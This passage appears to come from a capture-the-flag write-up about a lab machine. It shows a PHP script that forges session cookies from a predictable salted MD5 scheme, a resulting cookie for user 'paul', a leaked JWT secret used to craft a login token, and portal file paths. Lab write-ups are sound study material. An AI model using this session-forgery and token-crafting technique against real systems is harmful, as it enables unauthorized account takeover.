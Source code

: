 ```php
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    echo $session_cookie;
}

/**while ($i < $arrlen)
        {
            echo makesession($arrusernames[$i]) ."<br />";
            $i++;
        }
**/
makesession('paul');
?>
```

![](https://i.imgur.com/sf1E7rV.png)


## Now we have the session PHPSSID = paul61ff9d4aaefe6bdf45681678ba89ff9d

## now we need jWT token so lets create it from https://jwt.io
```bash
secret key : 6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e
```
![](https://i.imgur.com/q823Ev2.png)

## Now We can login as  paul  
![](https://i.imgur.com/VzweGRN.png)

```bash
http://10.10.10.228/portal/php/files.php
```
![](https://i.imgur.com/Wj7KpjX.png)

![](https://i.imgur.com/MN0UJoj.png)

```bash
/portal/includes/fileController.php
```

![](https://i.imgur.com/xb1Ywgw.png)

```bash
$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e'
```
